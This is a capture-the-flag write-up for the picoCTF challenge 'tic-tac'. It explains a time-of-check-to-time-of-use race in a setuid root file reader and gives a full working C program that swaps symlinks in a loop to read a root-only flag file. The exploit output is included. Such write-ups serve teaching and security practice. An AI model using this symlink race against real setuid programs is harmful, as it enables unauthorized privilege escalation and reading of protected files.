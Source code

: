 # tic-tac #
 
## Overview ##
 
200 points
 
Category: [Binary Exploitation](../)
 
Tags : `#setuid #toctou`
 
## Description ##
 
Someone created a program to read text files; we think the program reads files with root privileges but apparently it only accepts to read files that are owned by the user running it.
ssh to `saturn.picoctf.net:<port>`, and run the binary named `txtreader` once connected. Login as ctf-player with the supplied password.
 
## Approach ##

Listing the contents of the home folder on the instance we see : 

    drwxr-xr-x 1 ctf-player ctf-player    20 Mar 19 12:02 .
    drwxr-xr-x 1 root       root          24 Mar 16 02:27 ..
    drwx------ 2 ctf-player ctf-player    34 Mar 19 12:02 .cache
    -rw-r--r-- 1 root       root          67 Mar 16 02:28 .profile
    -rw------- 1 root       root          32 Mar 16 02:28 flag.txt
    -rw-r--r-- 1 ctf-player ctf-player   912 Mar 16 01:30 src.cpp
    -rwsr-xr-x 1 root       root       19016 Mar 16 02:28 txtreader

`txtreader` binary is owned by root and has the `setuid` bit set, such that it will run with the effective user ID of `root`. The `flag.txt` file is also owned by `root` and is not accessible by others.

Executing `txtreader` to attempt to read the flag file yields :

    ctf-player@pico-chall$ ./txtreader flag.txt
    Error: you don't own this file

Analysing the `src.cpp` source provided (snippet below), we can see why despite having our privileges elevated by the `setuid` binary bit, the ownership of the input file is checked by `txtreader` via a call to `stat()` to get the owner of the input file and a comparison with the results of `getuid()`. This fails because our *effective* user ID is elevated (returned by `geteuid()`) but not our actual user ID returned via `getuid()`.

    std::string filename = argv[1];
    std::ifstream file(filename);
    struct stat statbuf;

    // Check the file's status information.
    if (stat(filename.c_str(), &statbuf) == -1) {
      std::cerr << "Error: Could not retrieve file information" << std::endl;
      return 1;
    }

Looking more carefully at this sequence, the target file is firstly opened via the `std::ifstream` constructor using the provided filename (commandline argument) ready for use, and then `stat()` is called, also using the provided filename. There is no direct association between the two, by that I mean `stat()` is not using the file descriptor of the open file for example. Therefore there is a Time Of Check to Time Of Use (TOCTOU) bug.
 
If we can leverage the fraction of time between opening the flag file and then checking its ownership by creating a race condition to exploit the TOCTOU, we can bypass the `getuid()` check.
 
Desired sequence of events (race condition) :
                                 
    open(file == flag-file)
    ...
      < swap flag-file (owned by root) with dummy-file (owned by user) >
    ...
    stat(file == dummy-file)
    getuid() == owner of dummy-file
 
So how do we swap files but keep the filename (commandline argument) the same? We use the file system's symbolic links feature.
 
## Solution ##
 
The fraction of exploitable time would be small, so I went with a C-program to automate this process within a loop until the race condition was hit.
 
Plan of attack :
 
1. create a user owned `dummy_flag.txt` file, with some dummy contents
2. create a symbolic link to the `flag.txt` file owned by root
3. fork and exec the `txtreader` binary, redirecting its standard ouput to an `output.txt` file so we can check if we were successful
4. introduce a minor delay in the parent process (simple busy loop sufficed) to allow `txtreader` process to have reached and executed the open() [^1]
5. remove the `target.txt` symbolic link and recreate it linking to the user owned `dummy_flag.txt`, hopefully in time for the stat() and subsequent getuid() check
6. check the output from `txtreader`, loop back to step 2 and try again if we didn't hit the race condition (no `picoCTF` in output)
 
[^1] Step 4 was added to tweak delays slightly, initially the parent process was observed to be unlinking the flag file too quickly (output was mostly my dummy flag `"dummyFlag{just_a_place_holder}"` or very occasionally `"Error: Could not retrieve file information"` meaning the file switcheroo was still in process) as the forked process required time to execute.
 
Final (rough and ready) program used to drop the flag during the event, pasted into a file and compiled on the target instance :
 
    #include <sys/types.h>
    #include <sys/wait.h>
    #include <stdio.h>
    #include <unistd.h>
    #include <stdbool.h>
    #include <fcntl.h>
    #include <string.h>

    int
    main (void)
    {
      // create the dummy flag file
      FILE *fp = fopen ("./dummy_flag.txt", "w");
      if (!fp)
      {
        return 1;
      }
      fputs("dummyFlag{just_a_place_holder}", fp);
      fclose(fp);

      // start the attack
      bool droppedFlag = false;
      do
      {
        // link target to the root owned flag file, opened first
        unlink("./target.txt");
        symlink("./flag.txt", "./target.txt");

        pid_t pid = fork();
        if (pid == 0)
        {
          // child process

          // standard out redirect
          int out_fd = open("output.txt", O_WRONLY|O_CREAT|O_TRUNC, S_IRUSR|S_IWUSR|S_IRGRP|S_IROTH);
          dup2(out_fd, STDOUT_FILENO);
          dup2(out_fd, STDERR_FILENO);
          close(out_fd);

          execlp("./txtreader", "./txtreader", "./target.txt", NULL);
        }
        
        volatile int delay = 0;
        for (delay = 0; delay < 500000;)
        {
          delay = ((delay * 100) / (200 / 2)) + 1; 
        }

        // race condition: replace the link to root owned flag.txt, with user owned
        // dummy flag file, hopefully before the file stat() request to check getuid()
        unlink("./target.txt");
        symlink("./dummy_flag.txt", "./target.txt");

        // wait for setuid binary to complete
        int status;
        waitpid(pid, &status, 0);

        // read redirected output, check if flag was dumped
        fp = fopen("./output.txt", "r");
        if (fp)
        {
          char buf[50];
          buf[0] = '\0';

          fgets(buf, 50, fp);
          if (strncmp(buf, "picoCTF", 7) == 0)
          {
            droppedFlag = true;
          }

          printf("%s", buf);
          while (fgets(buf, 50, fp) != NULL)
          {
            printf("%s", buf);
            buf[0] = '\0';
          }
          fclose(fp);
        }
      }
      while(!droppedFlag);

      return 0;
    }
 
Output from the event :
 
    ctf-player@pico-chall$ ./pwn
    Error: you don't own this file
    dummyFlag{just_a_place_holder}
    dummyFlag{just_a_place_holder}
    dummyFlag{just_a_place_holder}
    Error: you don't own this file
    dummyFlag{just_a_place_holder}
    dummyFlag{just_a_place_holder}
    dummyFlag{just_a_place_holder}
    dummyFlag{just_a_place_holder}
    Error: you don't own this file
    dummyFlag{just_a_place_holder}
    Error: you don't own this file
    Error: you don't own this file
    Error: you don't own this file
    Error: Could not retrieve file information
    dummyFlag{just_a_place_holder}
    Error: Could not retrieve file information
    Error: you don't own this file
    dummyFlag{just_a_place_holder}
    dummyFlag{just_a_place_holder}
    Error: you don't own this file
    Error: you don't own this file
    Error: you don't own this file
    picoCTF{....<redacted>.........}
 